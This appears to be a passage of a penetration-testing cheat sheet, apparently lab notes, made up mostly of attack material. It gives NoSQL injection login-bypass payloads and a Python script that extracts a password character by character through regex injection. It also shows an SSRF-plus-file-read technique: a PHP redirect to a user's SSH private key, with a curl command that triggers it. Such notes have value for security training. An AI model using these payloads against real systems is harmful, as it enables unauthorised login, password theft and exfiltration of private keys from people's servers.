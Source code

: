 ```bash
# in DATA
username[$ne]=toto&password[$ne]=toto
login[$regex]=a.*&pass[$ne]=lol
login[$gt]=admin&login[$lt]=test&pass[$ne]=1
login[$nin][]=admin&login[$nin][]=test&pass[$ne]=toto

# in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```
**python extract data urlencode**
```python
#!/usr/bin/python
# change the url, post data and true/false flag

import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if r.status_code == 302 and r.headers['Location'] == '/dashboard':
                print("Found one more char : %s" % (password+c))
                password += c

```

## SSRF
+ ssrf and lfi, read sensitive file, eg. ssh key file. need user name; pg-symbolic
+ ssrf local port enum, service exploit. pg-cookiecutter


```bash
# ssrf and lfi read ssh key file.
## create local php file. apache start.
<?php
header('Location: file:///Users/p4yl0ad/.ssh/id_rsa');
?>

## ssfr request, then get the key file.
curl -i -s -k -XPOST --data-binary 'url=192.168.36.128%2Findex.php' 'http://192.168.36.131/Process.php'

## nmap output ports
nmap -F -oG - -v
```

